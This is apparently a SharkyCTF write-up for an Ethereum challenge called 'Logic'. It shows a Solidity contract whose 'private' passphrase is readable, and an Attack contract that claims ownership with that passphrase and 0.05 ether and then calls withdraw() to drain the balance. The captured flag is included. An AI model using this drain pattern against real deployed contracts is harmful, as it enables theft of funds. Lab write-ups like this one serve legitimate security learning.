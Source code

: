 # Logic

## Setup

The challenge is available at http://ethereum.sharkyctf.xyz/level/1

Before starting, it is recommended to follow the suggested steps at http://ethereum.sharkyctf.xyz/help to setup Metamask, get Ether from a Ropsten faucet, and Remix IDE.

## Challenge

The contract to attack is the following:

```solidity
pragma solidity = 0.4.25;

contract Logic {
    address public owner;
    bytes32 private passphrase = "th3 fl4g 1s n0t h3r3";
    
    constructor() public payable {
        owner = msg.sender;  
    }
    
    function withdraw() public {
        require(msg.sender == owner);
        msg.sender.call.value(address(this).balance)();
    }

    function claim(bytes32 _secret) public payable {
        require(msg.value == 0.05 ether && _secret == passphrase);
        owner = msg.sender;
    }
}
```

The goal is then to be able to call `withdraw()` from the contract.

## Hint

There is no special trick for this challenge, you just need to be able to use `claim()` before calling `withdraw()`.

## Solution

As the previous warmup challenge, this challenge does not require knowledge about specific exploits and just test your ability to interact with contracts.

To attack this contract, we will create another contract called Attack, which will be called to attack the first contract.

In the same Solidity file, add the following code :

```solidity
contract Attack {
    Logic public target;
    
     constructor (address _adress) public {
        target = Logic(_adress);
    }
    
     function attack() public payable {
        bytes32 passphrase = "th3 fl4g 1s n0t h3r3";
        
        // We send the 0.005 ether to the target
        target.claim.value(0.05 ether)(passphrase);
        
        // Once it is unlocked we withdraw the money;
        target.withdraw();
    }
}
```

Flag: `shkCTF{sh4m3_0n_y0u_l1ttl3_byt3_f0f6145540ea8c6ee8067c}`
